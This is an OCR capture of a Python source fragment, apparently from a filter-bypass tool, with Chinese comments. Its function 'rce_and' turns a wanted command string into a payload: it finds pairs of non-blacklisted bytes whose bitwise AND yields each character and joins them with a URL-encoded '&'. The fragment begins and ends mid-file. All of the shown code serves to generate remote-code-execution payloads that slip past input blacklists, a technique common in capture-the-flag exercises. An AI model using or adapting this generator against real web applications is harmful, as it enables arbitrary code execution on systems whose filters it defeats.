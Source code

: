 ```
    for i in range(0,len(rawstr)):

        finalstr=finalstr[:finalstr.rfind('"',0)]+result[i][0]+finalstr[finalstr.rfind('"',0):]

    return finalstr

def rce_and(string):

    global operationEffient

    global blacklist

    operationEffient=False

    rawstring=string

    result=[]

    finalstr=""

    for i in range(0,len(rawstring)):

        result.extend([[]])

    for l in range(0,len(rawstring)):

        for i in range(1,255):

            for j in range(1,255):

                if (chr(j) in blacklist) or (chr(i) in blacklist):

                    continue

                if chr(i&j)==rawstring[l]:

                    #注意&在URL特殊含义,故需要URL编码

                    result[l].append("\""+realHex(i)+"\"%26\""+realHex(j)+"\"")

                    continue

    for i in range(0,len(result)):

        if(len(result[i])==0):

            print("该字符在现有黑名单和字符范围下无法拼接出->%s"%(rawstring[i]))

            return

    for i in range(0,len(result)):

        if i == 0:

            finalstr+="({})".format(result[i][0])

        else:

            finalstr+=".({})".format(result[i][0])

    return finalstr

def rce_or(string):
```